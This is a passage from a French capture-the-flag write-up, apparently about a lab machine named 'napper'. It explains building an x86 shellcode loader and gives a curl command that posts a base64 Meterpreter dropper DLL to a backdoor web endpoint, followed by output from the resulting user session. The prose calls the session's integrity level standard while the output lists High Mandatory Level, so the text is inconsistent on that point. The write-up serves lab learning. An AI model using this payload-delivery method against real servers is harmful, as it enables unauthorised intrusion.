 ```cs
    }
}
```

Je ne vais pas rentrer dans les détails étant donné que c'est une boilerplate de shellcode très classique. Néanmoins il est important de noter qu'étant donné que le processus qui va charger notre assembly est un processus `x86`, il faut donc générer un shellcode `x86` et pas `x64` et idem pour la compilation dans Visual Studio, bien mettre l'option `Any CPU` pour la cible. Je pense que cela peut poser problème dans des cas d'accès au `PEB` par exemple (de manière générale pour les injections de code dans des processus, bien respecter l'architecture du processus hôte). Une fois cela pris en compte on peut tester l'envoi de notre payload comme ceci:

```txt
curl  -k "https://10.10.11.240:443/ews/MsExgHealthCheckd/" --data-urlencode "sdafwe3rwe23=$(base64 DropperMeterpreter.dll)"
```

Et on obtient bien une session sur le `TeamServer`:

<div>
    <img src="assets/session_ruben.PNG", style="max-width:150%;margin-left: 50%;transform: translateX(-50%);">
</div>

Cette sessions tourne sous l'utilisateur `ruben` à un niveau d'intégrité standard:

```txt
USER INFORMATION
----------------
User Name    SID                                           
============ ==============================================
napper\ruben S-1-5-21-1567175541-2888103920-4161894620-1001
GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
```